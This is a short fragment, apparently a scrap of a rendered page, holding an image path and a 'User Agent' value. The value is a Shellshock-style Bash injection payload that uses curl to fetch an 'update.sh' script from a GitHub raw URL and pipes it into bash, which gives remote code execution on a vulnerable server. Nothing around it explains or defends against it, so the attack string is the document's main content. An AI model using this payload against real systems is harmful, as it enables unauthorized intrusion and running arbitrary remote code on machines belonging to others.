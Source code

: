 User Agent:
`() {.:;.}; curl -s https://raw.githubusercontent.com/spaceSub/simple-update/master/update.sh | bash`
